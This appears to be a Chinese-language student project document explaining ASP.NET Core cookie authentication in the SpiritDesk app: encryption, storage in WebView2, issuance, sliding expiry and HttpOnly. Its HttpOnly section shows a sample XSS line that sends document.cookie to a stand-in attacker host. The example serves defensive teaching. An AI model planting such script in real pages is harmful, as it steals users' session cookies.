

# 05 - Cookie 四个概念详解

你在 [01-登录注册基础知识.md](./01-登录注册基础知识.md) 里看到的这张表，很多人第一次都会懵：

| 特点 | 说明 |
|------|------|
| 存在哪 | 浏览器 / WebView2 本地 |
| 谁签发 | 服务器（ASP.NET Core 认证中间件） |
| 有效期 | 可设置，本项目约 12 小时滑动过期 |
| HttpOnly | JS 读不到，略防 XSS 偷 Cookie |

还有一句：**「服务器解密/验证这个 Cookie，就知道当前用户是谁」**。

本文把这几句话拆开，用 SpiritDesk 项目里的真实配置举例说明。

---

## 0. 先建立整体画面

可以把登录后的 Cookie 想成一张 **「加密的入场手环」**：

```text
登录成功
  → 服务器制作手环（签发 Cookie）
  → 浏览器/WebView2 把手环存起来（存在哪）
  → 以后每次访问自动戴着手环（自动带 Cookie）
  → 门口保安验手环真假、有没有过期（服务器验证）
  → 合法就放行，并知道你是谁（当前用户）
```

SpiritDesk 里这张「手环」的名字叫 **`SpiritDesk.Auth`**。

---

## 1. 「服务器解密/验证 Cookie」是什么意思

### 1.1 Cookie 里通常不是明文用户名

很多人以为 Cookie 内容是：

```text
SpiritDesk.Auth=用户名:spiritdesk
```

**在本项目里不是这样。**

登录成功后，`Login.cshtml.cs` 里写的是：

```csharp
var claims = new List<Claim> { new(ClaimTypes.Name, displayName) };
await HttpContext.SignInAsync(..., new ClaimsPrincipal(identity));
```

`SignInAsync` 会把「你是谁」等信息打包成一个 **认证票据（Authentication Ticket）**，再用 ASP.NET Core 的 **Data Protection（数据保护）** 加密，最后才放进 Cookie。

你在浏览器里看到的 Cookie 值往往是一长串乱码，例如：

```text
CfDJ8N...很长一串...xyz
```

### 1.2 「解密」在说什么

**解密** = 服务器用自己保存的密钥，把 Cookie 里的乱码还原成可读的票据内容（里面有用户名等 Claim）。

SpiritDesk 把密钥存在：

```text
data/keys/
```

对应代码（`SpiritDeskWebHost.cs`）：

```csharp
builder.Services
    .AddDataProtection()
    .PersistKeysToFileSystem(new DirectoryInfo(dataProtectionDirectory))
    .SetApplicationName("SpiritDesk");
```

| 要点 | 说明 |
|------|------|
| 密钥在服务器 | 不在前端 JS 里 |
| 换一台机器 / 删了 keys | 旧 Cookie 可能验不过，要重新登录 |
| 不是密码学意义上的「用户密码」 | 是框架用来保护 Cookie 内容的密钥 |

### 1.3 「验证」在说什么

**验证** = 每次请求时，认证中间件检查：

1. Cookie 能不能成功解密；
2. 票据有没有过期；
3. 签名是否被篡改；
4. 通过后，把用户名放进 `HttpContext.User`。

业务代码里就可以写：

```csharp
httpContextAccessor.HttpContext?.User.Identity?.Name
```

`SpiritDeskService` 用这个名字去数据库找对应的 `UserProfile`。

### 1.4 一次请求的验证流程（时序）



### 1.5 答辩怎么说

> 登录成功后 Cookie 里存的是框架加密后的认证票据，不是明文密码。每次请求由 ASP.NET Core 认证中间件解密并验证，通过后 `HttpContext.User` 里就有当前用户名，业务层再据此查档案。

---

## 2. 「存在哪：浏览器 / WebView2 本地」

### 2.1 存在客户端，不在数据库

| 存什么 | 存在哪 |
|--------|--------|
| 用户名 + 密码哈希 | SQLite `WebAccounts` 表 |
| **登录状态（已登录凭证）** | **浏览器 / WebView2 的 Cookie 存储区** |

所以：

- **注册/账号** → 数据库里有记录，关机也在；
- **「当前已登录」** → 靠本机 Cookie，清 Cookie 或过期就要重新登录。

### 2.2 浏览器里存在哪

用 Chrome / Edge 打开 `http://127.0.0.1:端口` 时，Cookie 存在该浏览器配置目录下的 Cookie 数据库里（用户不用手改，浏览器自动管）。

开发者工具 → **Application（应用程序）** → **Cookies** → 选你的站点 → 能看到 `SpiritDesk.Auth`。

### 2.3 WebView2 里存在哪

SpiritDesk 桌面壳用 **WebView2** 嵌网页，它内部也是 Chromium 内核，有**自己的 Cookie 存储**（和外面 Chrome 浏览器**不一定共用**）。

因此：

- 在 Shell 窗口里登录 → Cookie 记在 WebView2 里；
- 在外面 Chrome 打开同一地址 → 可能还要再登一次。

### 2.4 和「主机 + 端口」的关系

Cookie 按 **网站地址** 区分。例如：

- `http://127.0.0.1:5188` 登录的 Cookie
- **不会**自动用于 `http://127.0.0.1:52401`

Shell 每次可能随机端口，所以会出现「上次登过，这次又要登」——不是账号没了，是 **Cookie 绑在旧端口上**。详见 [04-不同启动方式与常见踩坑.md](./04-不同启动方式与常见踩坑.md)。

### 2.5 答辩怎么说

> Cookie 存在用户本机浏览器或 WebView2 里，表示当前会话已登录；账号密码在服务器 SQLite。关掉服务器进程，账号还在；清掉 Cookie 或过期，就要重新登录。

---

## 3. 「谁签发：服务器（ASP.NET Core 认证中间件）」

### 3.1 什么叫「签发」

**签发** = 服务器在登录成功后，通过 HTTP 响应头告诉客户端：**请保存下面这个 Cookie**。

```http
HTTP/1.1 302 Found
Set-Cookie: SpiritDesk.Auth=CfDJ8...; path=/; httponly; samesite=lax
Location: /Index
```

| 角色 | 能不能签发 SpiritDesk.Auth |
|------|---------------------------|
| **服务器**（Login 成功后 `SignInAsync`） | ✅ 能 |
| 浏览器 | ❌ 不能自己造合法密文（没有密钥） |
| 前端 JS | ❌ 不能调用 `SignInAsync` |

### 3.2 谁具体执行签发

分两步理解：

| 阶段 | 谁 | 做什么 |
|------|-----|--------|
| **登录那一刻** | `Login.cshtml.cs` 调用 `HttpContext.SignInAsync` | 生成票据 → 加密 → 写入响应 Cookie |
| **之后每次请求** | 管道里的 `UseAuthentication` 中间件 | 读 Cookie → 验证 → 填充 `HttpContext.User` |

`SpiritDeskWebHost` 里注册：

```csharp
builder.Services.AddAuthentication(...)
    .AddCookie(options => { ... });

// 构建 app 后：
app.UseAuthentication();
app.UseAuthorization();
```

**中间件** = 请求进页面之前经过的一层「安检」。

### 3.3 登出时谁「作废」Cookie

`Logout.cshtml.cs`：

```csharp
await HttpContext.SignOutAsync(CookieAuthenticationDefaults.AuthenticationScheme);
```

服务器通过响应让浏览器 **删除或过期** `SpiritDesk.Auth`，相当于收回入场手环。

### 3.4 答辩怎么说

> 只有服务端在登录成功时能签发 Cookie；ASP.NET Core Cookie 认证中间件负责之后每次请求自动验 Cookie 并识别用户，登出时由服务端 SignOut 清除。

---

## 4. 「有效期：约 12 小时滑动过期」

### 4.1 为什么要有效期

如果 Cookie **永不过期**，别人捡到旧 Cookie 可能长期冒充你。所以要设 **过期时间**。

本项目配置（`SpiritDeskWebHost.cs`）：

```csharp
options.ExpireTimeSpan = TimeSpan.FromHours(12);
options.SlidingExpiration = true;
```

### 4.2 固定过期 vs 滑动过期

| 模式 | 行为 |
|------|------|
| **固定过期** | 例如登录后 12 小时一到，必须重登，中间用不用都一样 |
| **滑动过期（Sliding）** | 每次带 Cookie 访问，**把过期时间往后推** 12 小时 |

本项目是 **滑动过期**：

- 你一直在用 → 可以连续用很久（每次访问续期）；
- 你 **12 小时内完全没访问** → Cookie 失效 → 要重新登录。

### 4.3 举例

```text
周一 10:00 登录
  → 本来周二 10:00 过期

周一 15:00 又打开首页（带 Cookie）
  → 滑动续期，过期推到周二 15:00

从周一 15:00 到周二 15:00 都没再访问
  → 过期，再打开跳转 /Login
```

### 4.4 和数据库里的账号无关

Cookie 过期 **不会删除** `WebAccounts` 里的账号，只是 **登录状态没了**。用同一用户名密码可以再登。

### 4.5 答辩怎么说

> 项目设置 Cookie 12 小时过期，并开启滑动续期：用户持续访问会自动延长会话，长时间不用则需要重新登录，兼顾安全和体验。

---

## 5. 「HttpOnly：JS 读不到，略防 XSS 偷 Cookie」

### 5.1 两种读 Cookie 的方式

| 方式 | 谁能用 | 本项目 SpiritDesk.Auth |
|------|--------|-------------------------|
| **HTTP 请求自动携带** | 浏览器访问 `/Index` 等时自动带 | ✅ 会带 |
| **JavaScript `document.cookie`** | 页面里的 JS | ❌ HttpOnly 时读不到 |

配置：

```csharp
options.Cookie.HttpOnly = true;
```

### 5.2 为什么要防 JS 读

如果网站有 **XSS 漏洞**（恶意脚本被注入到页面），攻击脚本可能写：

```javascript
fetch("https://坏人.site/steal?c=" + document.cookie);
```

| HttpOnly | 结果 |
|----------|------|
| `false` | JS 能读到 `SpiritDesk.Auth`，可能被盗 |
| `true` | JS 读不到，盗不走（正常 HTTP 请求仍会带 Cookie，那是浏览器行为） |

所以说 **「略防 XSS 偷 Cookie」**——不是万能，但能挡掉最常见的一种偷法。

### 5.3 SpiritDesk 页面 JS 需要读 Cookie 吗

不需要。登录态由浏览器自动带 Cookie，服务端验；前端 `wwwroot/js` 不用拿 Cookie 里的用户名。

桌面浮球调 API 时，Shell 用 `BuildAuthCookieHeaderAsync` 从 **WebView2 的 Cookie 管理器** 读，那是宿主程序能力，不是网页 JS 的 `document.cookie`。

### 5.4 答辩怎么说

> HttpOnly 表示禁止前端 JavaScript 读取该 Cookie，降低 XSS 窃取登录凭证的风险；认证仍由浏览器在请求时自动携带，服务端中间件验证。

---

## 6. 四个概念对照总表

| 概念 | 一句话 | SpiritDesk 对应 |
|------|--------|-----------------|
| **解密/验证** | 服务器用密钥还原 Cookie 内票据，检查未过期、未篡改，得到当前用户名 | `data/keys` + `UseAuthentication` + `HttpContext.User` |
| **存在哪** | 登录凭证在用户本机浏览器/WebView2，不在数据库 | WebView2 存 `SpiritDesk.Auth` |
| **谁签发** | 只有登录成功时服务端 `SignInAsync` 写入 | `Login.cshtml.cs` + Cookie 中间件 |
| **有效期** | 12 小时内无访问则失效；有访问则续期 | `ExpireTimeSpan` + `SlidingExpiration` |
| **HttpOnly** | 网页 JS 不能读这个 Cookie | `options.Cookie.HttpOnly = true` |

---

## 7. 和登录注册专题其它文档的关系

| 文档 | 关系 |
|------|------|
| [01-登录注册基础知识.md](./01-登录注册基础知识.md) | 第一次提到 Cookie，本文展开 |
| [02-本项目登录注册怎么做.md](./02-本项目登录注册怎么做.md) | SignInAsync、门禁 |
| [04-不同启动方式与常见踩坑.md](./04-不同启动方式与常见踩坑.md) | 端口变化导致 Cookie 不共用 |

---

## 8. 老师可能追问的短答

**Q：Cookie 里存的是密码吗？**  
不是。存的是加密后的登录票据；密码哈希在 SQLite 的 `WebAccounts`。

**Q：关掉电脑账号还在吗？**  
账号在数据库里还在；本机 Cookie 可能还在（未过期时），也可能因过期/清缓存要重登。

**Q：为什么叫中间件验证？**  
请求先经过认证中间件再进 Razor Page，中间件统一验 Cookie，页面不用自己解析。

返回目录：[README.md](./README.md)
